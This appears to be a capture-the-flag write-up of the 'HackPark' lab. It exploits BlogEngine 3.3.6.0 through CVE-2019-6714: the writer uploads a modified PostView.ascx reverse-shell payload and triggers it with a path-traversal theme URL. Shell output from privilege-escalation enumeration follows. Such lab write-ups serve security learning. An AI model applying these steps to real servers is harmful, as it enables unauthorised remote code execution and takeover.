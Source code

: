 ![Image](Pasted%20image%2020240306131133.png)
_BlogEngine 3.3.6.0_

I got this exploit for this CMS vulnerability [CVE-2019-6714](https://www.exploit-db.com/exploits/46353) that leads to Remote Control Execution.

![Image](Pasted%20image%2020240306131551.png)
_Upload PostView.ascx payload_

1. I had to modify the script of payload as I have to change the TCP IP and Port for attacker machine that will listen as to catch the reverse shell .
2. Then save the payload file as PostView.ascx file name.
3. Now upload the file from including a new entry for a post in this site .
4. Use file manager to upload the file.

Now to trigger the exploit run this URL 🔽
`http://<IP>/?theme=../../App_Data/files`

Lets trigger it from my end 😀

![Image](Pasted%20image%2020240306132358.png)
_Reverse shell response_

## Local Privilege Escalation Enumeration ⤵️

```powershell
c:\windows\system32\inetsrv>
c:\windows\system32\inetsrv>whoami
iis apppool\blog
c:\windows\system32\inetsrv>hostname
hackpark
c:\windows\system32\inetsrv>
c:\windows\system32\inetsrv>whoami /all
USER INFORMATION
----------------
User Name        SID                                                           
================ ==============================================================
iis apppool\blog S-1-5-82-2734256158-3485737692-275298378-1529073857-2789248872
GROUP INFORMATION
-----------------
Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
```